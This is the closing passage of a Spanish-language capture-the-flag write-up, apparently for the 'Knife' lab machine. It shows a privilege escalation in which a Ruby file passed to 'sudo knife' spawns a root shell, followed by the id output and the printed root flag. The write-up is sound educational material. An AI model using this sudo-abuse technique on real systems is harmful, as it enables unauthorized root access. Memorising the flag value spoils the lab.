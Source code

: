 ```bash
james@knife:~$ cat expl.rb 
exec "/bin/bash -i"
```

Con esto solo nos queda ejecutar el comando

```bash
james@knife:~$ sudo knife user list -c expl.rb 
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/home/james# cat /root/root.txt
94fb18c7c7913defff161e6181f399d4
root@knife:/home/james# 
```

Y tenemos acceso root y podemos leer la flag!!
![](assets/celebdark.gif)


Espero que esta guia haya sido de ayuda para tu aprendizaje, estare subiendo mas writeups en los proximos dias :D
